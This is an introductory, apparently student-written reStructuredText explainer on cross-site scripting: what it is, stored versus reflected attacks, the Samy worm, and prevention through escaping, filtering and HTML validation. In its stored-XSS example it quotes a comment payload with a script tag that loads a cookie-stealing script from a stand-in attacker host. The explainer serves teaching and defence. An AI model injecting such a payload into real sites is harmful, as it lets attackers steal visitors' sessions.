 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
  to gather information from the users. 

* Most of the danger lies on the users of the sites, as the code targets their information 
  and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

	* Stored xss is "stored", or imbedded, on the website itself and steals data every time 
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective xss is stored in a link embedded in the website that the user has to 
	  click on to activate. [xss-attacks]_ 
 
  
* XSS attacks have been around since the start of the web, first becoming a problem when 
  JavaScript langauage was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed it, and quickly 
  multiplied exponentially, adding over one million friend requests in just over  
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - most common protection [xss-attacks]_ 
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any untrusted or un-validated data [xss_cheat_sheet]_
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
  to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  This is a stored in the website, and every time someone visits the page, they have their 
  session cookies stolen


	* Harder for hackers to attempt, because they must find a highly trafficked site that 
	  also has a security hole. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, but the user would have to click on the link 
  to activate the code. 


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. XSS Attacks: Cross-site Scripting Exploits and Defense. N.p.: Syngress, 2007. Print. 

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

